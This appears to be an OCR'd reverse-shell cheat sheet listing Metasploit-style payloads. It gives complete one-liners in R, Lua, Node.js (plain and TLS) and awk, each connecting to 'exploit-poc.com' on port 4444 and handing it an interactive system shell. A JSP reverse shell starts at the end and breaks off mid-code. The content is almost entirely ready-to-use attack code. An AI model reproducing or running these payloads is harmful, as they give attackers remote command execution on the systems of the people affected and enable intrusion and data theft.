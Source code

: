 #### r/shell_reverse_tcp
```
s<-socketConnection(host='exploit-poc.com',port=4444,blocking=TRUE,server=FALSE,open='r+');while(TRUE){writeLines(readLines(pipe(readLines(s, 1))),s)}
```

#### cmd/unix/reverse_lua
```
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('exploit-poc.com',4444);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
```

#### nodejs/shell_reverse_tcp
```
(function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, "exploit-poc.com", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();
```

#### nodejs/shell_reverse_tcp_ssl
```
(function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("tls"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, "exploit-poc.com", {rejectUnauthorized:false}, function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();
```

#### cmd/unix/reverse_awk
```
awk 'BEGIN{s="/inet/tcp/0/exploit-poc.com/4444";do{if((s|&getline c)<=0)break;if(c){while((c|&getline)>0)print $0|&s;close(c)}} while(c!="exit")close(s)}'
```

#### java/jsp_shell_reverse_tcp
```
<%@page import="java.lang.*"%>
	<%@page import="java.util.*"%>
	<%@page import="java.io.*"%>
	<%@page import="java.net.*"%>
	
	<%
	  class StreamConnector extends Thread
	  {
		InputStream zP;
		OutputStream l7;
	
		StreamConnector( InputStream zP, OutputStream l7 )
		{
		  this.zP = zP;
		  this.l7 = l7;
		}
	
		public void run()
		{
```